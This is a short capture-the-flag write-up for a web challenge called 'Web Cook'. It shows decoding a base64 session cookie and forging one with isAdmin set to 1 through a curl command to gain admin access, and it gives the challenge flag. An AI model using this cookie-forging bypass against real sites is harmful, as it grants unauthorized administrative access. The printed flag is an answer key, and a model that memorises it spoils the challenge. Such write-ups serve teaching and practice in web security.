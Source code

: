 ## Web Cook

### Description

The best recipes for a perfect website :p

**Author: algorab**

### Solution

We face a web page with a recipe telling us how to cook a "Cookie-Based PHP authentication". We can also login using a username.
Once we have logged-in, we can notice a cookie named "session" containing a base64 encoded string.

```
$ echo 'eyJ1c2VybmFtZSI6InRlc3QiLCJpc0FkbWluIjowfQ==' | base64 -d
{"username":"test","isAdmin":0}
```

By changing the value of `isAdmin` to 1, we can login as admin and get the flag.

```
$ curl http://localhost/ -H "Cookie: session=$(echo -n '{"username":"pwn","isAdmin":1}' | base64)"
```

### Flag

`N0PS{y0u_Kn0W_H0w_t0_c00K_n0W}`